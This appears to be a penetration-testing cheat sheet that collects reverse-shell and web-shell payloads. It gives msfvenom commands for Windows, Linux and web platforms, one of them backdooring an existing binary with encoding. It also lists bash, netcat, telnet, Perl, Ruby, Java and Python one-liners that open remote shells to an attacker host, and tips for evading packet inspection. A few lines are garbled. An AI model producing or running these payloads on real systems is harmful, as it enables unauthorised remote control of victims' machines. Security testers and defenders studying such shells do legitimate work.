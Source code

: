 # Reverse-shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

_[UPDATE-07-2019]_ **Huge number of different shells/webshells/payloads:**

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)


## Msfvenom

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

#### Non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux

### Binary

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

### Bash

```
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Php

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat

**Bind shell**

```
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

**Reverse shell**

```
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

**With -e flag**

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

Upgrade Netcat shell to an interactive: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

### Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells - Platform Independent

### PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```



